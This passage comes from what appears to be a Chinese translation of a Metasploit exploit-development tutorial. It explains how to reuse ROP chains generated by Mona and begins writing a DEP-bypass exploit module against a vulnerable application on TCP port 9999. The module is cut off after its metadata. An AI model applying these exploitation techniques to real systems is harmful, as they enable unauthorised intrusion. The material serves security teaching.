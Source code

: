 让我们看一下 Mona 脚本创建的 ROP 链，如下所示：

![](img/80399eaa-788b-46d3-9749-d46e0614de54.png)

我们在`rop_chains.txt`文件中有一个完整的`create_rop_chain`函数，用于 Metasploit。我们只需要将这个函数复制到我们的利用中。

# 编写 DEP 绕过的 Metasploit 利用模块

在这一部分，我们将为同一个易受攻击的应用程序编写 DEP 绕过利用，我们在利用栈溢出漏洞时失败了，因为 DEP 已启用。该应用程序在 TCP 端口`9999`上运行。因此，让我们快速构建一个模块，并尝试在同一应用程序上绕过 DEP：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::Tcp 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'                 => 'DEP Bypass Exploit', 
      'Description'    => %q{ 
         DEP Bypass Using ROP Chains Example Module 
      }, 
      'Platform'             => 'win', 
      'Author'         => 
        [ 
          'Nipun Jaswal' 
        ], 
      'Payload' => 
      { 
```